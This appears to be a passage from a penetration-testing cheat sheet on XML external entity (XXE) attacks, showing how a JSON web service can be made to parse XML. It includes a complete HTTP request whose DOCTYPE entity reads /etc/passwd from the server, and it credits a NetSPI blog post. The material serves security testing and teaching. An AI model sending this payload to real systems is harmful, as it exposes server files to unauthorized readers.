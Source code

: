 File stored on _http://publicServer.com/url_invocation_noNamespaceSchemaLocation.xsd_  
  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<xs:schema  
     xmlns:xs="http://www.w3.org/2001/XMLSchema">  
 <xs:element name="data" type="xs:string"/>  
</xs:schema>
```
  

# XXE on JSON Webservices Trick (Antti Rantasaari)

If you pentest a web service that supports JSON, you can try to enforce it parsing XML as well.

The example is copied from [this](https://blog.netspi.com/playing-content-type-xxe-json-endpoints/#) Blogpost by Antti Rantasaari.

Given HTTP example request:

```html
POST /netspi HTTP/1.1  
Host: someserver.netspi.com  
Accept: application/json  
Content-Type: application/json  
Content-Length: 38  
  
{"search":"name","value":"netspitest"}
```
 
It can be converted to enforce using XML by setting the HTTP Content-Type to application/xml:

```xml
POST /netspi HTTP/1.1  
Host: someserver.netspi.com  
Accept: application/json  
Content-Type: application/xml  
Content-Length: 288  
  
<?xml version="1.0" encoding="UTF-8" ?>  
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>  
<root>  
<search>name</search>  
<value>&xxe;</value>  
</root>
```
  

In this case, the JSON parameters "name" and "value" are converted to XML elements `<search>` and `<value>` to be Schema conform to the JSON format.

A root element `<root>` was added around `<search>` and `<value>` to get a valid XML document (since an XML document must have exactly one root element).

The XXE attack might also work by simply adding one of the other attack vectors of this blog.

